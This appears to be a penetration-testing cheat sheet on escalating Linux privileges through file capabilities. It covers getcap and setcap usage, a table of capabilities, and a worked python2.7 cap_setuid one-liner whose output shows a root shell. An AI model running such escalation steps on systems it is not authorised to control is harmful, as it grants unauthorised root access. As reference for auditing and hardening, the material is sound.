 # Escalating via Capabilities



#### List capabilities of binaries

```text
╭─swissky@lab ~  
╰─$ /usr/bin/getcap -r  /usr/bin
/usr/bin/fping                = cap_net_raw+ep
/usr/bin/dumpcap              = cap_dac_override,cap_net_admin,cap_net_raw+eip
/usr/bin/gnome-keyring-daemon = cap_ipc_lock+ep
/usr/bin/rlogin               = cap_net_bind_service+ep
/usr/bin/ping                 = cap_net_raw+ep
/usr/bin/rsh                  = cap_net_bind_service+ep
/usr/bin/rcp                  = cap_net_bind_service+ep
```

#### 

#### Edit capabilities

```text
/usr/bin/setcap -r /bin/ping            # remove
/usr/bin/setcap cap_net_raw+p /bin/ping # add
```

#### 

#### Interesting capabilities

Having the capability =ep means the binary has all the capabilities.

```text
$ getcap openssl /usr/bin/openssl 
openssl=ep
```

Alternatively the following capabilities can be used in order to upgrade your current privileges.

```text
cap_dac_read_search # read anything
cap_setuid+ep # setuid
```

Example of privilege escalation with `cap_setuid+ep`

```text
$ sudo /usr/bin/setcap cap_setuid+ep /usr/bin/python2.7

$ python2.7 -c 'import os; os.setuid(0); os.system("/bin/sh")'
sh-5.0# id
uid=0(root) gid=1000(swissky)
```

| Capabilities name | Description |
| :--- | :--- |
| CAP\_AUDIT\_CONTROL | Allow to enable/disable kernel auditing |
| CAP\_AUDIT\_WRITE | Helps to write records to kernel auditing log |
| CAP\_BLOCK\_SUSPEND | This feature can block system suspends |
| CAP\_CHOWN | Allow user to make arbitrary change to files UIDs and GIDs |
| CAP\_DAC\_OVERRIDE | This helps to bypass file read, write and execute permission checks |
| CAP\_DAC\_READ\_SEARCH | This only bypass file and directory read/execute permission checks |
| CAP\_FOWNER | This enables to bypass permission checks on operations that normally require the filesystem UID of the process to match the UID of the file |
| CAP\_KILL | Allow the sending of signals to processes belonging to others |
| CAP\_SETGID | Allow changing of the GID |
| CAP\_SETUID | Allow changing of the UID |
| CAP\_SETPCAP | Helps to transferring and removal of current set to any PID |
| CAP\_IPC\_LOCK | This helps to lock memory |
| CAP\_MAC\_ADMIN | Allow MAC configuration or state changes |
| CAP\_NET\_RAW | Use RAW and PACKET sockets |
| CAP\_NET\_BIND\_SERVICE | SERVICE Bind a socket to internet domain privileged ports |

